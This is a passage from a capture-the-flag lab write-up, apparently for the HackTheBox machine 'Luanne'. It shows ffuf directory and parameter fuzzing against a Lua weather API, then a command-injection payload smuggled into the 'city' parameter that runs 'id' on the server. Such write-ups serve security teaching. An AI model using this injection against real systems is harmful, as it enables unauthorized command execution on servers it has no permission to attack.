 We now know that _/weather_ on port 3000 is requested through port 80 and that it is written in the scripting language **Lua**.
Lets fuzz this application, to gather information or execute code.

### Exploiting Port 3000

Lets search for hidden directories on _/weather_ with **FFuF**:
```
ffuf -u http://10.10.10.218/weather/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```

It finds the directory _forecast_ which is an API:

![Weather API](luanne_web-2.png)

The API expects the parameter _city_ and can _list_ all cities or show information based on a specified city:
```
GET /weather/forecast?city=list HTTP/1.1
Host: 10.10.10.218
```
```
GET /weather/forecast?city=London
```

When sending all special characters as a value to the parameter _list_, the _single quote symbol (')_ responds with a different size:
```
ffuf -u http://10.10.10.218/weather/forecast?city=FUZZ -w /usr/share/seclists/Fuzzing/special-chars.txt -mc 200,500 -fw 5
```

The single quote character makes the application error:
```
curl http://10.10.10.218/weather/forecast?city=\'

<br>Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value
```

Fuzzing again for special characters after the single quote:
```
ffuf -u http://10.10.10.218/weather/forecast?city=\'FUZZ-- -w /usr/share/seclists/Fuzzing/special-chars.txt -mc 200,500 -fw 9
```

The _closed bracket symbol_ between the _single quote_ and the _double hyphen (comment in Lua)_ responds with a different size.
These characters probably end the real value and after that the _os.execute_ in **Lua** can be used to execute commands:
```
GET /weather/forecast?city=');os.execute("id")--
```
```
"error": "unknown city: uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
```
